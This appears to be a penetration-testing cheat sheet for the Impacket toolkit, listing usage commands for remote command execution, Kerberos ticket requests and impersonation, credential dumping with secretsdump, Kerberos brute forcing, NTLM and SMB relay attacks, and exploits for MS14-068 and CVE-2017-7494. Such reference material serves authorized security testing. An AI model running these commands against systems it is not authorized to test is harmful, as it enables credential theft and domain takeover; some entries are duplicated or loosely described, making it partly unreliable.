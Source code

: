 # Impacket Cheat Sheet

## Executing Remote Commands

### psexec

[psexec.py](https://github.com/kavika13/RemCom) provides functionality similar to PSEXEC, utilizing RemComSvc.

```shell-session
python psexec.py domain/user:password@target_machine
```

### smbexec

smbexec.py is another approach to PSEXEC, yet it does not require RemComSvc. It creates a local smb server to collect commands.

```shell-session
python smbexec.py domain/user:password@target_machine
```

### wmiexec

wmiexec.py offers a semi-interactive shell used through Windows Management Instrumentation (WMI).

```
python wmiexec.py domain/user:password@target_machine
```

### dcomexec

dcomexec.py offers a semi-interactive shell akin to wmiexec.py but employs different DCOM endpoints.

```
python dcomexec.py domain/user:password@target_machine
```



## Kerberos

### GetTGT.py: Requesting a Ticket Granting Ticket

GetTGT.py enables you to request a Ticket Granting Ticket (TGT) and save it as ccache, given a password, hash, or aesKey.

```
python GetTGT.py domain/user:password
```

### GetST.py: Requesting a Service Ticket

GetST.py is designed to request a Service Ticket (ST) and save it as ccache given a password, hash, aesKey, or TGT in ccache. -impersonate to request the ticket on behalf of another user.

```
python GetST.py domain/user:password -impersonate victim_user
```

### GetPac.py: Acquiring PAC Structure

GetPac.py uses a mix of \[MS-SFU]’s S4USelf + User to User Kerberos Authentication to acquire the PAC (Privilege Attribute Certificate) structure of a target user by having normal authenticated user credentials.

```
python GetPac.py domain/user:password target_user
```

### GetUserSPNs.py: Fetching Service Principal Names

GetUserSPNs.py finds and fetches Service Principal Names (SPNs) associated with normal user accounts

```
python GetUserSPNs.py domain/user:password
```



###

## Windows Swag

### SecretsDump.py: Dumping Secrets

SecretsDump.py is a potent script that allows for the dumping of password hashes, LSA secrets, cached credentials, and other sensitive information from a Windows system.

```
python SecretsDump.py domain/user:password@target
```

### Kerbrute.py: Brute Forcing Kerberos

Kerbrute.py is a very handy tool for brute-forcing user/password combinations against Kerberos. This can be quite helpful in enumerating valid users or discovering weak passwords within a given domain.&#x20;

```
python Kerbrute.py -userfile userlist.txt -password Passw0rd! domain.com
```

### karmaSMB.py: SMB Relay Attack

karmaSMB.py allows for the execution of an SMB relay attack. This is where authentication attempts from a client are intercepted and relayed to a third-party target, potentially allowing for unauthorized access.&#x20;

```
python karmaSMB.py -h target
```

### karmaTFTP.py: TFTP Relay Attack

karmaTFTP.py performs a similar function to karmaSMB.py, but operates over TFTP instead. The usage of this script is pretty similar:

```
python karmaTFTP.py -h target
```

## Windows Secrets

### secretsdump.py

For SAM and LSA Secrets, including cached credentials, the script attempts to read as much data as possible from the registry.

```
python secretsdump.py domain/user:password@target
```

### mimikatz.py

Mimikatz.py is a mini-shell that controls a remote mimikatz RPC server. Can also perform pass-the-hash, pass-the-ticket, or build Golden tickets.

```
python mimikatz.py domain/user:password@target
```

## SMB/MSRPC



## Database Tools







###

## Local Server Tools

### ntlmrelayx.py

Ntlmrelayx.py executes NTLM Relay Attacks by setting up an SMB, HTTP, WCF, and RAW Server and relaying credentials to multiple protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be activated when a connection is relayed (for example, creating a user through LDAP), or it can be run in SOCKS mode. In SOCKS mode, for every connection relayed, it becomes available to be used multiple times later through a SOCKS proxy. Here’s an example of this command:

```
python ntlmrelayx.py -h target
```

### karmaSMB.py

KarmaSMB.py is an SMB Server that responds with specific file contents, regardless of the SMB share and pathname specified. It is a part of MiTM attacks, where authentication attempts from a client are intercepted and relayed to a third-party target, potentially allowing unauthorized access. Here’s an example of how to use this script:

```
python karmaSMB.py -h target
```

### smbserver.py

SMBserver.py is a Python implementation of an SMB server. It allows for the quick setup of shares and user accounts. This tool can be useful in various scenarios including file sharing, systems management, and [penetration testing](https://aardwolfsecurity.com/). Here’s an example of how to use this script:

```
python smbserver.py SHARE_NAME PATH_TO_SHARE
```

## Exploiting Known Vulnerabilities

#### goldenPac.py

GoldenPac.py is an exploit script for MS14-068. It saves the golden ticket and also launches a PSEXEC session at the target. This could be useful in situations where elevation of privilege is required, as the golden ticket provides access as a domain administrator. An example command for using this script is:

```
python goldenPac.py domain/user:password@target
```

#### sambaPipe.py

SambaPipe.py is a script designed to exploit CVE-2017-7494. It uploads and executes the shared library specified by the user through the -so parameter. This could be useful in situations where the target system is vulnerable and code execution is desired. Here’s an example of using this script:

```
python sambaPipe.py -so /path/to/shared/library.so domain/user:password@target
```

#### smbrelayx.py

Smbrelayx.py is an exploit script for CVE-2015-0005 that uses an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will attempt to gather the SMB session key through NETLOGON. This can potentially provide unauthorized access. An example of how to use this script is:

```
python smbrelayx.py -h target
```
